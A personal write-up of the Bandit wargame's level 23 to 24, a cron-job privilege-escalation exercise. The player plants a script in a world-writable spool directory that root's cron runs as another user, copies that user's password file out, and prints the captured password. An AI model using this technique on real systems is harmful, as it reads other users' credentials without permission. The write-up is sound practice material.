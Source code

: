 # bandit 23 to 24

A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Commands you may need to solve this level

cron, crontab, crontab(5) (use “man 5 crontab” to access this)

---

### solve

> Same as last two levels.
>
> Check /usr/bin/cronjob_bandit24.sh
>
> ```bash
> bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh 
> #!/bin/bash
> 
> myname=$(whoami)
> 
> cd /var/spool/$myname
> echo "Executing and deleting all scripts in /var/spool/$myname:"
> for i in * .*;
> do
>     if [ "$i" != "." -a "$i" != ".." ];
>     then
> 	echo "Handling $i"
> 	timeout -s 9 60 ./$i
> 	rm -f ./$i
>     fi
> done
> ```
>
> The job moves /var/spool/(whoami) and execute all program and delete all.
>
> So, I check the permission of /var/spool 's files.
>
> ```bash
> bandit23@bandit:/var/spool$ ls -l
> total 480
> drwxrwx--- 2 bandit24 bandit23 479232 Jul 28 19:23 bandit24
> ```
>
> I knew it. bandit24 folder has next level permission.
>
> Before I started, remember changing mode of my working directory and shell script.
>
> I have spending too much time because I don't know that.
>
> Make a directory and shell script in it. Then copy the script to target directory.
>
> And wait one minute. Automatically executed my shell script creates a password file.
>
> ```bash
> bandit23@bandit:~$ mkdir /tmp/qqwweerr
> bandit23@bandit:~$ chmod 777 /tmp/qqwweerr
> bandit23@bandit:~$ cd /tmp/qqwweerr
> bandit23@bandit:~$ vi s.sh
> bandit23@bandit:/tmp/qqwweerr$ cat s.sh 
> #!/bin/bash
> cat /etc/bandit_pass/bandit24 >> /tmp/qqwweerr/teeet
> 
> bandit23@bandit:/tmp/qqwweerr$ ls
> s.sh
> bandit23@bandit:/tmp/qqwweerr$ cp s.sh /var/spool/bandit24/
> bandit23@bandit:/tmp/qqwweerr$ ls
> s.sh
> bandit23@bandit:/tmp/qqwweerr$ ls /var/spool/bandit24/
> efbente.sh  s.sh
> bandit23@bandit:/tmp/qqwweerr$ ls
> s.sh  teeet
> bandit23@bandit:/tmp/qqwweerr$ cat teeet 
> UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
> ```
>
> password is  'UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ'.